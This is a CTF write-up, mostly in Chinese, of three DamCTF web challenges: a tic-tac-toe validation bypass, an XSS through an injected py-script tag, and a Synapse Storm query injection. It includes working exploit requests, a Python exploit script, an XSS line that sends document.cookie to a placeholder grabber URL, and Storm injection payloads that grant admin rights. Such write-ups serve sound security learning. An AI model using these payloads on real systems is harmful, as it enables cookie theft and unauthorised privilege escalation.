


# About
DamCTF is a Capture the Flag competition hosted by the Oregon State University Security Club (OSUSEC). The competition is designed for college teams, but all are welcome to play.

https://damctf.xyz/

# Prizes
The top 3 teams will be eligible to receive prizes. Some of the prizes are:

1. Hak5 USB Rubber Ducky
2. Hak5 Shark Jack
3. Hak5 LAN Turtle


# Write up
## tcl-tac-toe
>BobbySinclusto
>62 solves / 432 points
Time to tackle tcl-tac-toe: the tricky trek towards top-tier triumph
http://tcl-tac-toe.chals.damctf.xyz/
http://161.35.58.232/
[tcl-tac-toe.zip](https://rctf-bucket.storage.googleapis.com/uploads/fb961906561fbbd533c8a1fbcdf5b0525dcb1a7dd75a9644677247871c7b539a/tcl-tac-toe.zip)

题目给出了源码与站点：http://161.35.58.232/ 

站点给出的是一个井字棋游戏：


玩了游戏就知道这个 AI 会在我们即将获胜的时候同时下两颗子 emmmm. 怎么绕过这个限制呢？

游戏交互的 http 报文会传输当前棋盘(prev_board)、下一步棋盘(new_board)还有一个当前棋盘的签名(signature)。
```http
POST /update_board HTTP/1.1
Host: 161.35.58.232
Content-Length: 611
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://161.35.58.232
Referer: http://161.35.58.232/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

prev_board=-%20-%20-%20-%20-%20-%20-%20-%20-&new_board=X%20-%20-%20-%20-%20-%20-%20-%20-&signature=a9ed4e91ab71e5f7586c7cb80e07c336b00fb0d0d19f368c8b60230c0812be70b4f52684ada00908784a186b2665ebb32e432871e8ea5566030126593b33898910121482bef7e205ecd39c9b0db96dc74dd46965baa267bd626460bee84b4471e88465983a62b46a19dacb4db4c8ad3b4312ff9b14d45b1c61e2a2126bdd6ae0513b0fcdd5d34edec658c5637a23dd6acde47c0207ff2bb89be14981d7924f2da1cfaf53b8a8f0ea6cd2bcb3b8a2df409f3ecdc1ec1e96c548b0dfefbb08ba91be5d2c705cb65301c34adca90404801c7b356eb9d3ca8c72a519b3296a8db7a1830ae71b91a59b3e02b3126ed7fe3550123aa924563ed0369ee5a024659c0f13
```


通过审计源代码可以发现：
1. 首次加载页面时，会得到一个初始的 signature， 这个签名是通过 sign 函数传入初始棋盘获得的。
2. 每次落子的时候会发送 prev_board 、signature 给服务端，服务端会使用 verify 函数验证 prev_board 是否被篡改。verify 不通过时返回 "No hacking allowed!"
3. 每次落子的时候会发送 new_board 给服务端，服务端会使用 valid_move 来判断 prev_board 和 new_board 是否只有一个位置不同。valid_move 不通过时返回 "Invalid move!"
   
因此以下的几种方式是不可行的：
1. 篡改初始棋盘。由于 key.pem 不可知，初始棋盘的 signature 无法伪造。篡改中间过程的棋盘也是同样无效。
2. 将 AI 的落子直接修改成我们的落子。valid_move 会检查 old_board 中某个位置是否被 X 或者 O 占据。

但是这个游戏的源代码中同样存在漏洞。那就是 valid_move 只会检查某个位置是否为 X 或者 O。如果两者都不是呢？例如 "C".AI 会根据 X 的情况作弊，但却没有检查非 X 的落子，我们可以先使用 C 占据关键的位置，然后再用 X 去替换（此时 prev_board 中对应位置为 C 所以可以绕过 valid_move）。

于是就有了如下的 payload：

```
request 1:

prev_board=-%20-%20-%20-%20-%20-%20-%20-%20-&new_board=-%20-%20-%20-%20C%20-%20-%20-%20-&signature=a9ed4e91ab71e5f7586c7cb80e07c336b00fb0d0d19f368c8b60230c0812be70b4f52684ada00908784a186b2665ebb32e432871e8ea5566030126593b33898910121482bef7e205ecd39c9b0db96dc74dd46965baa267bd626460bee84b4471e88465983a62b46a19dacb4db4c8ad3b4312ff9b14d45b1c61e2a2126bdd6ae0513b0fcdd5d34edec658c5637a23dd6acde47c0207ff2bb89be14981d7924f2da1cfaf53b8a8f0ea6cd2bcb3b8a2df409f3ecdc1ec1e96c548b0dfefbb08ba91be5d2c705cb65301c34adca90404801c7b356eb9d3ca8c72a519b3296a8db7a1830ae71b91a59b3e02b3126ed7fe3550123aa924563ed0369ee5a024659c0f13

request 2:

prev_board=O%20-%20-%20-%20C%20-%20-%20-%20-&new_board=O%20-%20-%20C%20C%20-%20-%20-%20-&signature=b97e4cd24cb1ece250b226665051f61f0a477109caca1b5adf8826c0823ae3d64a4b5265d19467d1568cdd65f22c2de4d60b25e110e3695275b0279e9eaba5bd61cd90fd50b48cbe574ebc9d4bb299457fd52437de5b922387ebc63365b0a4c791bbbca61b1e16f946e80a1f1733f1b5946d28997506ffc52babb83bec67546f309946ce44135a73ddaa01eaa0beb8bab1398cd2f0f73bca1229410a1f882d79926d3d919cee11e68a6d188af873724aa8911364114dc2cfdf0a36c824c28ccc3f7f5f092d37489e60e902bb5c60756f849d082faee7862ae1c9a28421155ca8313590b28902bb16af43da69d029973d15fb5811f2989f6535087cb27f921235

request 3:

prev_board=O%20O%20-%20C%20C%20-%20-%20-%20-&new_board=O%20O%20X%20C%20C%20-%20-%20-%20-&signature=5e8d082c5c98e9b9a21aacc6c630e000c8f26da01b0e9d8b35f3f7469d4651b1de5640a958755aeb4b7712195869058a393f89975c27f4a2b82230e901dd9c0457ab071c2fc9aad8036ca4d2cc0ba963dc28476503077ca7e1b9e73d67931b60c3d8e20b424305c8db0cd0ac6bc06076f610b59e47a15ddb797c0bbca0bd3444f3677ea0e201d73670fe098eddb482e97b692144a131f58894e44d0565d0e651444b9ef31ea0efaf6306faa8ddbc0f249ed92d7dcca6c1ac6c60f8aa374d94dbd2ba725e5306a0722362029d627eca16972d45a654b2573a494b9a20cd9931881d53a55b2d624183778de7f8e10e0a249835b202fa9106e5061ef785e0d368ef

request 4:

prev_board=O%20O%20X%20C%20C%20O%20-%20-%20-&new_board=O%20O%20X%20C%20C%20O%20X%20-%20-&signature=9518b334a395766f85425c71fc354b8b1c6887647e49acc578f35eebfc693737ef9daaa54269f0075285c7d5ab83ab9f8eeb2c8e2eb894831e2f4c95c08f0ed42282c120cb900953af05ea3245240e6af4170b97f3fef39381ca774763ca68599e0457d0ec43627851812a6eca0f5445e4a6e3a730507a863341fa749bcc223770ab39416e0c4278dce9735ef5c027fdfd6250ba56c993c47b31a63d71659169a189fd79429fecc5bc4a57f97ca414f014d222736aa6d48068d5a66c491dda41029e12f36ab5845999481b4afa3b9437f25fbbc3af4d0c7cc2a45351edb53da5c3f4b47275ae7511806c4bab58742984e77f907e1a2506078495c8de4010f08a

request 5:

prev_board=O%20O%20X%20C%20C%20O%20X%20O%20-&new_board=O%20O%20X%20C%20X%20O%20X%20O%20-&signature=7c6c5b595130941e6869b4e3123e9b9327b608dadc9b3136b37723f8a01d8d6ffd81416e8c608b33ecbfaba1eb22a8ba86d5394b69a80e4cab423fe240f76759cef0347679d7265f10778d148d012a582da6744be1173d09bf13281eaff8da6c3ba85dd063657e9a0483e669a682bf56de8da785e8ebd0a00d160e88441a562a99a5a32977ace95251d3b2243ddeaae67e2453c29b04ba59731f62953315500e790a0baff9589df56d4372fc00a566e072244f48c02a345f53fe8263bc38bc4b07b358815e884ef39c30ee641aec0941b2c15ae4905cc259e957b3da935a49c8f7b12fe5c02f38d87071be1727262ab36199e2dd502bf06cf461bdc2e39e932e

```

发送最后一个包的时候就可以获胜并得到 flag。
```http
HTTP/1.1 200 Ok
Server: wapp
Connection: close
Content-Security-Policy: default-src 'self'
Content-Type: text/html; charset=utf-8
Content-Length: 628

O O X C X O X O -,8cb5f4229995c11a5a677b1c5c6ce751e914f622458fc3dc2822c376f68690f85e98daded296ee07eac15127fd82dfea50d18d86f104fb0c36a4f8cc9bc1e7feabf7c9e39c3ea46dcf48834fb5a62610be4fae1c9557a0b6e11b5254fe77561dbad7e62e3cc390db2a04a3e7fd21b989ffa93ab240d2ac22aea9e3b4fa5502597dfbe3d0725d09e681ba02d1ec0498529f21714ccfe8c12d25817242eb1f3712650b5033d611a888ea05f433f3bbeedcd3d9702a5420dc69e410c1ab17a4f8aad336d246fcee3417ee3be85bd451f3d9e479b6f4578daccfbf3328dd746261f605a0a5b1fc336011de8c01b003106cd3275abfdcb2ace1edc5f5f179360de4b1,Impossible! You won against the unbeatable AI! dam{7RY1N9_Tcl?_71m3_70_74k3_7W0_7YL3n0l_748L37s}
```

## url-stored-notes
>M1ll_0n
>41 solves / 459 points
>
>Ever seen that neat paste program by topaz for advent of code? Yeah, well this is like 100% better and more secure since it's for note card sharing.
Admin bot at /admin
>http://url-stored-notes.chals.damctf.xyz
http://64.227.26.193
[url-notes.zip](https://rctf-bucket.storage.googleapis.com/uploads/785b930a6369cfb78baea2bb62079266bb48d5e4d6ae52d918a7f5eee20bebec/url-notes.zip)


题目给出了源码，根据源码可以判断需要通过 XSS 窃取 admin bot 的 cookie

站点是一个留言板，可以输入 prompt 和 answer 生成一个临时链接。


访问临时链接就可以访问到我们写入的内容。


正常情况下，我们写入的内容都被包裹在 textContent 里面，也就是无法解析了。

```js
promptElement.textContent = prompt;
answerElement.textContent = answer;
```

值得关注的是，站点仅使用了前端代码来限制使用的 tag，因此实际上其他的标签也是可以直接使用的。
```js
const SUPPORTED_TAGS = ['p', 'h1', 'h2', 'h3', 'h4', 'h5', 'h6', 'i', 'code'];
```

关注到站点使用了 py-script 来操作页面元素，我们同样可以通过添加 py-script 标签来注入 python 代码，由此来添加 XSS payload：

py-script payload 的功能根简单，添加一个 `<script>` 标签获取 cookie。
```py
import js

script_tag = js.document.createElement('script')
script_tag.innerHTML = "document.location='http://xxxxxxx/XSS/grabber.php?c='+document.cookie;"
js.document.head.appendChild(script_tag)
```

exp.py
```py
from base64 import b64encode, b64decode
from lzma import compress, decompress
import json
import requests

notes = {}

def note_decode(encodedNotes):

    encoded_notes = encodedNotes.encode()
    decoded_notes = decompress(b64decode(encoded_notes))
    notes = json.loads(decoded_notes.decode('utf-8'))
    return notes

def note_encode(Notes):
    encoded_notes = json.dumps(Notes)
    encoded_notes = compress(encoded_notes.encode())
    encoded_notes = b64encode(encoded_notes).decode()
    return encoded_notes

def send_request(data):
    url = "http://64.227.26.193/#{}".format(data)
    res = requests.get(url)
    print(res.text)

if __name__ == "__main__":
    note = [
        {
            'prompt': '''
import js

script_tag = js.document.createElement('script')

script_tag.innerHTML = "document.location='http://xxxxxxx/XSS/grabber.php?c='+document.cookie;"

js.document.head.appendChild(script_tag)
''', 
            'answer': '',
            'tag': 'py-script'}
        ]
    encoded_note = note_encode(note)
    print(encoded_note)
    # send_request(encoded_note)

```

流程图如下：



## thunderstruck
>captainGeech
>5 solves / 496 points
>Attention all CTI analysts: Excel has some competition now! Check out our new IOC validation tool, Thunderstruck.
http://thunderstruck.chals.damctf.xyz
http://157.230.188.90
[thunderstruck.zip](https://rctf-bucket.storage.googleapis.com/uploads/27a7f1ee2d87021886cf27f2f8c94b6a02fb0787472b8fe564ca879b3cb0e9e4/thunderstruck.zip)


题目给出了源码方便本地测试，站点采用 python 异步框架 Quart + 后端 cortex 数据库的形式部署，相对来说很陌生。

通过审计源码可以知道题目定义了如下的几个功能：
1.  首页（index）
2.  用户注册（register）
3.  用户登录（login）
4.  用户注销（logout）
5.  查询（lookup）
6.  管理员页面（admin）

其中管理员界面应该是可以获取到 flag 的。关键就在于 is_admin 的判断中。is_admin 的判断主要依托于 cortex 查询语句：
```python
self._is_admin = (await current_app.cortex.count(r"auth:creds=(thunderstruck,$u) +#role.admin", opts={"vars": {"u": self.auth_id}, "view": self._view})) == 1
```

用户对应的 auth:creds 表项如果具备 role.admin 标签即具有 admin 权限，但正常的用户在注册时无法获取这个标签。

漏洞点就出在 lookup 功能中，以 _lookup_sha512 为例。
```py
async def _lookup_sha512(h) -> bool:
    return await current_app.cortex.count(f"hash:sha512={h}", opts={"vars": {"h": h}, "view": await current_user.view}) > 0
```
站点正常查询时，用户需要提供一个 128 位的字符串，但此处的用户输入 h 似乎是直接拼接到 `f"hash:sha512={h}"` 中，细心一些也能发现，其他地方都是使用 r 字符串加占位符的形式执行 storm 语句，但是这里使用的是 f 字符串。

这里的 payload 如下, 我的用户名为 user2，前方的 # 直接可以使得 sha512 不报错的情况下顺利执行后方为 user2 添加 role.admin 标签的代码。需要保证总长度为 128 位，因此我使用了垃圾字符进行填充。
```sql
#1 -> #aaa11111111111111111111111111111111111111111111111111111111111111111111|[ auth:creds=(thunderstruck,user2) +#role.admin ]
```
获得 admin 权限之后就可以访问 /admin


根据页面中的提示，可以定位 flag 存放在 cortex 中，而且可以通过 it:dev:str 查询到。

但 lookup 页面无法回显，通过阅读 admin.html 模板文件发现，其实这个提示来自于 ingest_code 变量.


而 ingest_code 又来自于 summary 。
```py
ingest_ts, ingest_code = await current_app.cortex.callStorm(r"meta:event#ingest | max .created | return((.created, :summary))", opts={"view": await current_user.view})
counts = await current_app.cortex.callStorm(r"return($lib.view.get().getFormCounts())")
```

在 init_cortex.storm 其实是对这个 summary 进行赋值了的。summary 的全路径为 meta:event:summary

```s
[meta:event=* :title="ingest-20230202" :summary="<REDACTED>"]
```

这样的话，我们就可以通过替换 meta:event:summary 的内容为 flag 的内容来达到显示的目的。

payload 如下，通过声明一个变量来进行赋值。

```sql
#1 -> #aaa11111111111111111111111111111111111111111111111111111111111111111111111| $org={ it:dev:str } meta:event[:summary=$org]
```

最后界面上就会将 flag 打印出来。下面是用 chatGPT 生成的流程图（nice job!!）。



# References
[synapse 文档](https://synapse.docs.vertex.link/)

文档都要翻烂了。